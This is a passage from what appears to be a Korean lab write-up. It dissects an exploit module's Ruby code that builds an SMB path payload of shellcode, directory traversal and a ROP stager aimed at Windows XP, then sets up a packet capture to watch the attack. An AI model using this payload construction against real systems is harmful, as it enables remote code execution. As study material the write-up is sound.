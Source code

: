 ### exploit 함수 
- 다음은 exploit 함수의 1094 ~1124 라인의 코드이다. 상대경로 값 (path)에 페이로드를 지정해준다. 
- 페이로드에서 중요한 부분은 rop값을 만들어주는 코드이다. (generate_rop함수의 리턴값이 들어간다.)
- 상대경로 값이 `\{알파벳랜덤값100자리문자열}{셸코드}\..\..\{패딩}{rop값}{알파벳랜덤값2자리문자열}{널바이트두개}`로 이루어진 것을 알 수 있다. 

```rb
  #
    # Windows XP SP2/SP3 ROP Stager targets
    #
    elsif mytarget['UseROP']

      rop = generate_rop(mytarget['UseROP'])

      path =
        Rex::Text.to_unicode('\\') +

        # This buffer is removed from the front
        Rex::Text.rand_text_alpha(100) +

        # Shellcode
        payload.encoded +

        # Relative path to trigger the bug
        Rex::Text.to_unicode('\\..\\..\\') +

        # Extra padding
        Rex::Text.to_unicode(pad) +

        # ROP Stager
        rop +

        # Padding (skipped)
        Rex::Text.rand_text_alpha(2) +

        # NULL termination
        "\x00" * 2

```

## 패킷 캡쳐 
- 실제 TCP통신상의 페이로드는 어떻게 되는지 한번 패킷을 캡쳐해보고 싶다.
- 다음 순서로 패킷을 캡쳐했다. 

### tshark 로 패킷 캡쳐 준비 
-w 옵션으로 dump파일명을 지정하고 -i 옵션으로 캡쳐할 인터페이스를 지정한다. Virtualbox환경에서 호스트 온리 네트워크의 인터페이스는 eth1였으므로 eth1를 지정해주었다. 

```sh
shark -w smb_packet.dump -i eth1
```

### exploit을 수행
다시 한번 exploit을 수행한다. (run 커맨드를 실행한다.)
